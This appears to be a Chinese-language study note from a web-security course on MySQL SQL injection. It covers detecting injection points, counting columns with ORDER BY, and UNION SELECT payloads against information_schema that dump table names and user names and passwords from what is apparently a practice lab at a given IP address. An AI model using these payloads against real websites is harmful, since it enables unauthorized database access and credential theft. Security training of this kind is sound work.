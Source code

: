 ﻿# WEB漏洞-SQL注入之简易sql注入   

标签（空格分隔）： SQL注入

---

## SQL注入
> SQL注入就是一种通过操作输入来修改后台SQL语句达到代码执行进行攻击目的的技术

## sql注入产生原因
> 接收数据 拼接数据 数据库执行 结果展示— 四个步骤，过程中处理不当就可能会存在注入漏洞
sql注入漏洞，取决于过滤严谨与否，过滤严谨，基本不可能存在sql注入漏洞，反之，就可能存在！

## SQL注入的危害
> 1.危害数据库里的数据
2.直接危害网站的权限

## SQL 注入知识结构
![image_1g5h21o1dbro176v1dae1b8p1bod9.png-108.9kB][1]

## mysql数据库注入
![image_1g5h23gondda1fig1d9316r4159qm.png-89.6kB][2]

## mysql数据库
> 数据库A=网站A=数据库用户A
表名——> 列名 ——> 数据(目标)
数据库B=网站B=数据库用户B
…
数据库C=网站C=数据库用户C
…

## 如何判定是否存在注入点？
> 老办法：
and 1=1 页面正常
and 1=2 页面异常
原理：
SELECT * FROM users WHERE id=1 LIMIT 0,1
SELECT * FROM users WHERE id=1 and 1=1 LIMIT 0,1 正常
SELECT * FROM users WHERE id=1 and 1=2 LIMIT 0,1 错误
逻辑运算（与 或 非）
真 且 真 = 真
真 且 假 = 假
真 或 假 = 真
SELECT * FROM users WHERE id=1 真
and（且） 1=1 真 =真
and（且） 1=2 假 =假
不要局限于此
SELECT * FROM users WHERE id=1xxxx(随意、怎么舒服怎么来！) LIMIT 0,1
随意输入内容后
对网页有影响说明带入数据库进行查询 有注入点。
对网页没有影响说明没有带入数据库查询
出现404（或者其他、如：跳转主页）说明对输入进行检测 基本没有sql漏洞

## 猜测列名数量（字段数）
> order by x(数字-不断尝试）
正常值 网页正常显示
错误值 错误网页报错

## 信息收集：
> 数据库版本：version（）5.7.22-0ubuntu0.16.04.1
5.7.26-log
数据库名字：database（）mozhe_Discuz_StormGroup
techtrek
数据库用户：user（） root@localhost
techtrek@172.17.201.244
操作系统： @@version_compile_os Linux

> 必要知识点：在MySQL5.0以上版本中，MySQL存在一个自带数据库名为 information_schema ，它是一个存储记录所有数据库名  ，表名，列名的数据库，也相当于可以通过查询它获取指定数据库下面的表名或者列名信息。

> 数据库中符号“.”代表下一级，如xiao.user表示xiao数据库下的user表名
information_schema.tables; 记录所有表名信息的表
information_schema.columns; 记录所有列名信息的表
table_name; 表名
column_name; 列名
查询指定数据库下所有表名信息  StormGroup_member,notice
http://124.70.22.208:43757/new_list.php?id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=‘mozhe_Discuz_StormGroup’
查询指定表名下所有列名信息  id,name,password,status
http://124.70.22.208:43757/new_list.php?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name=‘StormGroup_member’
查询指定数据
http://124.70.22.208:43757/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member
> limit可以猜解多个数据 limit x,1 变动猜解
## 视频中出现的题目
> 1.可能存在注入的编号选项有哪几个？
1-www.xiaodi8.com/index.php?id=8
2-www.xiaodi8.com/?id=10
3-www.xiaodi8.com/?id=10&x=1
4-www.xiaodi8.com/index.php(post注入)
答案：1234
2.参数有x注入，以下哪个注入测试正确
A.www.xiaodi8.com/new/php?y=1 and 1=1&x=2
B.www.xiaodi8.com/new/php?y=1&x=2 and 1=1
C.www.xiaodi8.com/new/php?y=1 and 1=1 & x=2 and 1=1
D.www.xiaodi8.com/new/php?xx=1 and 1=1&xxx=2 and 1=1
答案：BC



  [1]: http://static.zybuluo.com/corn/s8wz3lkfaf9edqq5ygkyve1k/image_1g5h21o1dbro176v1dae1b8p1bod9.png
  [2]: http://static.zybuluo.com/corn/cqn7yqbytwks6ht85u0e9y9q/image_1g5h23gondda1fig1d9316r4159qm.png